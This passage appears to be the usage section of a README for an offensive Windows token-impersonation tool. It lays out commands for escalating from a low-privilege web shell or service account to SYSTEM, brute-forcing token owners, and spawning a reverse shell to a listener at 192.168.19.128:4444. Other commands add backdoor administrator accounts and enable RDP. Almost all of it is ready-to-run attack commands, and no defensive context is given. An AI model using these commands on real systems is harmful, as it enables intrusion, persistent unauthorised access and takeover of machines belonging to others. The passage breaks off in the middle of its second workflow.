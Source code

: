 # Impersonate specific PID
.\TokenImpersonate.exe <PID>
.\TokenImpersonate.exe 540

# Brute force by username
.\TokenImpersonate.exe brute <USERNAME>
.\TokenImpersonate.exe brute "BUILTIN\Administrators"
.\TokenImpersonate.exe brute "NT AUTHORITY\SYSTEM"
Post-Exploitation
powershell# Spawn reverse shell
.\TokenImpersonate.exe <PID> shell <LHOST> <LPORT>
.\TokenImpersonate.exe 540 shell 192.168.19.128 4444

# Create admin user
.\TokenImpersonate.exe <PID> adduser <USERNAME> <PASSWORD>
.\TokenImpersonate.exe 540 adduser hacker Pass123!

# Enable RDP
.\TokenImpersonate.exe <PID> rdp
.\TokenImpersonate.exe 540 rdp

# Brute force with operations
.\TokenImpersonate.exe brute Administrator shell 192.168.19.128 4444
.\TokenImpersonate.exe brute Administrator adduser backdoor P@ssw0rd!

🎯 COMMON WORKFLOWS
Workflow 1: Basic Privilege Escalation (IIS/Web Server)
Scenario: You have a web shell with low privileges but SeImpersonatePrivilege
powershell# Step 1: Upload the tool
upload TokenImpersonate.exe

# Step 2: Verify privileges
.\TokenImpersonate.exe list

# Step 3: Auto-escalate to SYSTEM
.\TokenImpersonate.exe auto

# Result: New SYSTEM cmd.exe window spawns

Workflow 2: Get SYSTEM Shell via Service Account
Scenario: You compromised a service account (IIS, SQL, etc.)
powershell# Step 1: Check what you have
whoami /priv
# Look for: SeImpersonatePrivilege = Enabled
